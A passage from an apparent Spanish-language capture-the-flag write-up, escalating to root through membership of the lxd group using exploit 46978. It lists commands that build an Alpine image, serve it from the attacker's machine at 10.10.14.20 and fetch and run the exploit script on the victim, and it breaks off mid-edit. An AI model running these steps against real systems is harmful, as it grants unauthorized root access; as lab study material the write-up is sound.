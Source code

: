 

## Escalada de privilegios {-}

### Rootear la maquina {-}

```bash
whoami
id
```

En este punto vemos que el usuario xalvas esta en el grupo **lxd** y ya tenemos la posibilidad de escalar privilegios con esto.

```bash
searchsploit lxd
searchsploit -x 46978
```

Si Si el exploit a sido creado por el mismo S4vitar. Para usar el exploit, lo primero es mirar si estamos en una maquina 32 o 64 bits.

```bash
uname -a
```

Seguimos los pasos del exploit

1. En la maquina de atacante

    ```bash
    wget https://raw.githubusercontent.com/saghul/lxd-alpine-builder/master/build-alpine
    chmod +x build-alpine
    ./build-alpine # --> para maquinas x64
    ./build-alpine -a i686 # --> para maquinas i686
    searchsploit -m 46978
    mv 46978.sh lxd_privesc.sh
    dos2unix lxd_privesc.sh
    python3 -m http.server 80
    ```

1. En la maquina victima

    ```bash
    wget http://10.10.14.20/alpine-v3-14-i686-20210728_2134.tar.gz
    wget http://10.10.14.20/lxd_privesc.sh
    chmod +x lxd_privesc.sh
    ./lxd_privesc.sh -f alpine-v3-14-i686-20210728_2134.tar.gz
    ```

1. vemos un error `error: This must be run as root`. Modificamos el fichero lxd_privesc.sh

    ```bash
    nano lxd_privesc.sh
    ```

    en la function createContainer(), borramos la primera linea:
    